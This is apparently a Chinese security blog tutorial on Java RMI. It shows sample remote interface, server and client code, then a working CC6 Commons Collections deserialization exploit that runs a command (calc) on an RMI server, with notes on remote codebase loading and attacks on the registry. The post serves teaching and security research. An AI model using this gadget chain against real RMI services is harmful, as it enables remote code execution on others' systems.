


前置
RMI的三大部分
- Client
- Registry
- Server
在低版本的JDK中，Server与Registry是可以不在一台服务器上的，而在高版本的JDK中，Server与Registry只能在一台服务器上，否则无法注册成功
RemoteInterface
我们首先需要创建一个RemoteInterface接口，这个接口需要扩展java.rmi.Remote接口，而且他所有的方法都需要抛出RemoteException
package pers.rmi;
import java.rmi.Remote;
import java.rmi.RemoteException;
//定义一个能够远程调用的接口，并且需要扩展Remote接口
public interface RemoteInterface extends Remote {
public String CaseBegin() throws RemoteException;
public String CaseBegin(Object demo) throws RemoteException;
public String CaseOver() throws RemoteException;
}RemoteObject
之后我们需要创建一个实现这个接口的RemoteObject类，这个类需要继承UnicastRemoteObject类
package pers.rmi;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
//远程可以调用的类，需要继承UnicastRemoteObject类和实现RemoteInterface接口
//也可以指定需要远程调用的类，可以使用UnicastRemoteObject类中的静态方法exportObject指定调用类
public class RemoteObject extends UnicastRemoteObject implements RemoteInterface {
protected RemoteObject() throws RemoteException {
super();
}
@Override
public String CaseBegin() {
return "Hello world!";
}
@Override
public String CaseBegin(Object demo) {
return demo.getClass().getName();
}
@Override
public String CaseOver() {
return "Good bye!";
}
}默认这个类就是我们远程可以调用的类，当然我们也可以自定义远程调用的类，使用UnicastRemoteObject类的静态方法exportobject指定需要远程调用的类
RemoteServer
这里我们就直接将registry中的注册操作，放入RemoteServer类中
package pers.rmi;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RemoteServer {
public static void main(String[] args) throws RemoteException, MalformedURLException, AlreadyBoundException {
LocateRegistry.createRegistry(1099);
//将需要调用的类进行绑定
//创建远程类
RemoteObject remoteObject = new RemoteObject();
//获取注册中心
Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
//绑定类
registry.bind("test", remoteObject);
}
}其中的LocateRegistry.getRegistry方法是一个重载方法

我们可以只传入port参数，在绑定类的时候传入rmi://127.0.0.1:1099/test可以达到一样的效果
Client
package pers.rmi;
import java.net.MalformedURLException;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class Client {
public static void main(String[] args) throws RemoteException, NotBoundException, MalformedURLException {
//在客户端中调用远程类
Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
//打印注册表信息
//System.out.println(registry.list());
//查询和执行远程类
RemoteInterface test = (RemoteInterface) registry.lookup("test");
System.out.println(test.CaseBegin());
System.out.println(test.CaseOver());
}
}在客户端通过注册中心和服务器进行交互
lookup: 查询
bind : 绑定
rebind : 重绑定
unbind : 解除绑定
list: 列表
通过lookup查询到之后就可以调用远程类的方法
攻击服务端
带有恶意服务参数(参数为Object的情况下)
就会在服务端调用readObject方法进行反序列化造成漏洞
在我们的RemoteInterface接口下就有类似的方法
public String CaseBegin(Object demo) throws RemoteException;我们使用CC6链来利用这个漏洞
package pers.rmi;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.lang.reflect.*;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
public class RMIClientAttackDemo1 {
public static void main(String[] args) throws RemoteException, NotBoundException, MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, AlreadyBoundException, NoSuchFieldException {
//仿照ysoserial中的写法，防止在本地调试的时候触发命令
Transformer[] faketransformers = new Transformer[] {new ConstantTransformer(1)};
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"}),
new ConstantTransformer(1),
};
Transformer transformerChain = new ChainedTransformer(faketransformers);
Map innerMap = new HashMap();
Map outMap = LazyMap.decorate(innerMap, transformerChain);
//实例化
TiedMapEntry tme = new TiedMapEntry(outMap, "key");
Map expMap = new HashMap();
//将其作为key键传入
expMap.put(tme, "value");
//remove
outMap.remove("key");
//传入利用链
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);
Object o = (Object) expMap;
// 获取远程对象实例
Registry registry = LocateRegistry.getRegistry("localhost", 1099);
RemoteInterface stub = (RemoteInterface) registry.lookup("test");
System.out.println(stub.CaseBegin(o));
}
}
成功弹出了计算器
动态的加载类
java.rmi.server.codebase属性值表示一个或者多个URL位置，当在本地库中找不到类是，就从这个属性值对应的位置远程下载类文件，其类文件支持http://, ftp://, file://协议
利用条件：
- 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy
- 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件
攻击注册端
我们看他的bind等方法
使用了readObject方法进行反序列化，就可以触发漏洞
除了 bind，由于 lookup/rebind 等方法均通过反序列化传递数据，因此此处的实际攻击手段不止 bind 一种。也就是说，名义上的 Server 端和 Client 端都可以攻击 Registry 端


- Post link: https://roboterh.github.io/2022/03/24/RMI%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.